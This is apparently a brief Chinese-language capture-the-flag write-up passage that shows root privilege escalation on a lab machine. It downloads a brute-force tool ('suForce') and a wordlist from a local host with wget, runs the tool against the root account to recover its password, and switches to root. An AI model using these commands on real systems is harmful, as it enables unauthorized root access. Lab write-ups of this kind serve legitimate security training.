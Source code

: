 看别的wp是直接爆破root密码



### 上传工具和字典

```
wget 192.168.23.134/suForce
chmod +x suForce
wget 192.168.23.134/techyou.txt
```



### 爆破root用户

```
./suForce -u root -w techyou.txt
```

![image-20250324101737654](./assets/image-20250324101737654.png)

得到root密码



### 切换root用户

```
su root
```

![image-20250324101946593](./assets/image-20250324101946593.png)


